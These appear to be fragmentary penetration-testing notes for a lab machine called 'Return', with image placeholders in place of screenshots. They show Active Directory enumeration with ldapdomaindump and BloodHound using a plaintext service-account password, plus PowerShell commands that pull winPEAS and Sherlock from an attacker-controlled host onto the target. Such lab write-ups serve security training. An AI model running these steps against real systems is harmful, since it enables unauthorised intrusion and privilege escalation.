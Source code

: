 
```
ldapdomaindump ldaps://10.10.11.108 -u 'RETURN\svc-printer' -p '1edFg43012!!'
```
![[Pasted image 20240505194413.png]]


```
bloodhound-python -d RETURN.local -u svc-printer -p '1edFg43012!!' -ns 10.10.11.108 -c all
```
![[Pasted image 20240505194335.png]]

Let's run winpeas
```
IWR -Uri http://10.10.16.20:8080//winpeas/winPEASx64.exe -OutFile winPEASx64.exe
```
![[Pasted image 20240506015645.png]]

![[Pasted image 20240506020652.png]]

```
USERDOMAIN: RETURN
USERDNSDOMAIN: return.local
```



```
IWR -Uri http://10.10.16.20:8080/opt/windows_tools/Sherlock.ps1 -OutFile /opt/windows_tools/Sherlock.ps1
```